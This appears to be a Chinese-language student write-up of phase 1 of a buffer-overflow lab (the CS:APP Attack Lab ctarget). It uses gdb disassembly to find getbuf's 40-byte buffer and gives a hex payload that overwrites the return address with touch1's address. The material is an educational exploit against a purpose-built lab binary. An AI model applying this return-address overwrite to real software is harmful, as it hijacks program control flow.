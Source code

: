 # phase1

题目告知我们要使`getbuf`函数不正常返回，而是直接执行`touch1`函数。同时，题目也告知`getbuf`函数是在`test`函数内部被调用。

```C
void test()
{
	int val;
	val = getbuf();
	printf("No exploit. Getbuf returned 0x%x\n", val);
}

void touch1()
{
	vlevel = 1;   /* Part of validation protocol */
	printf("Touch1!: You called touch1()\n");
	validate(1);
	exit(0);
}
```

这里我们通过`gdb ctarget`进入调试窗口，再使用`disas getbuf`以及`disas touch1`来观察这两个函数的地址。

```asm
(gdb) disas getbuf
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    retq
End of assembler dump.

(gdb) disas touch1
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:     sub    $0x8,%rsp
   0x00000000004017c4 <+4>:     movl   $0x1,0x202d0e(%rip)        
   0x00000000004017ce <+14>:    mov    $0x4030c5,%edi
   0x00000000004017d3 <+19>:    callq  0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:    mov    $0x1,%edi
   0x00000000004017dd <+29>:    callq  0x401c8d <validate>
   0x00000000004017e2 <+34>:    mov    $0x0,%edi
   0x00000000004017e7 <+39>:    callq  0x400e40 <exit@plt>
End of assembler dump.
```

这里我们发现`getbuf`函数在栈上申请了40字节的空间，而后在<+21>处返回。我们要做的就是通过输入一个非常长的字符串挤掉这40字节的空间，而后在返回的地址填入`touch1`的首地址。理论存在，实践开始！

我们首先新建一个`.txt`文档命名为`phase1.txt`用于填充这个长字符串，而后使用提供好的函数`hex2raw`使其变成机器码存放在`phase1-raw.txt`中。

```txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```
